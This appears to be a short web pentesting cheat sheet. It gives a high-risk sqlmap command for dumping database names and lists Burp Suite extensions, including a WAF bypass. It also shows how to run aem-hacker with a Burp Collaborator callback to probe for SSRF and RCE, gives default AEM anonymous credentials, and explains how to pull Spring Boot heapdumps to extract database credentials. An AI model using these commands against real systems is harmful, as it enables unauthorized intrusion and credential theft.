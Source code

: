 `sqlmap -r request.txt -p username --dbms="MySQL" --force-ssl --level 5 --risk 3 --dbs --hostname`



**BurpSuite Extensions:**

-   Collaborator Everywhere
-   XSS Validator
-   Wsdler
-   .NET Beautifier
-   Bypass WAF
-   J2EEScan
-   Param Miner
-   Wayback Machine
-   JS Link Finder
-   Upload Scanner
-   Nucleus Burp Extension
-   Software Vulnerability Scanner
-   Active Scan++
-   InQl Scanner
-   Nuclei

**AEM:**

```
git clone https://github.com/0ang3el/aem-hacker.git  
cd aem_hacker  
pip install -r requirements.txt
```

with these command you can get sometimes `SSRF` , `Sensitive Information` , `XSS` , `RCE`

`sudo python3 aem_hacker.py -u https://domain.com/ --host your.burpcollaborator.net`

AEM Login:

```
User:anonymous  
Pass:anonymous
```

**Spring Boot:**

Check Endpoints:

```
datahub/actuator/heapdump  
datahub/heapdump  
actuator/heapdump  
heapdump
```

```
Download the Eclipse Memory Analyzer from here [https://www.eclipse.org/mat/](https://www.eclipse.org/mat/)after downloading, run the MemoryAnalyzer.exe and open the Heapdump file downloadedafter opening the Heapdmp file click on Dominator viewstart search will find lot of database **credentials**
```


**Google Dorks URL:** https://dorks.faisalahmed.me/
